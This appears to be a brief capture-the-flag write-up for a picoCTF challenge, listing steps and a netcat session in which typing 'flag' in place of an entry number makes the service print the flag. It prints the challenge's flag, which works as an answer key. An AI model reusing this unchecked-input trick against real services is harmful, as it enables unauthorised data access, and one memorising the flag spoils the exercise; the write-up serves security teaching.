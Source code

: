  1. Netcat into the service via given connectionstring
 1. Add a new entry
 1. After adding the new entry, we can use option 2 to read the file from the "*database*"
 1. Here we try to readout the flag instead of the number.

```shell
nc saturn.picoctf.net 49698
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Test
Test
Please enter the length of your data:
4
4
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
flag
flag
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_00AAD6B3}
```
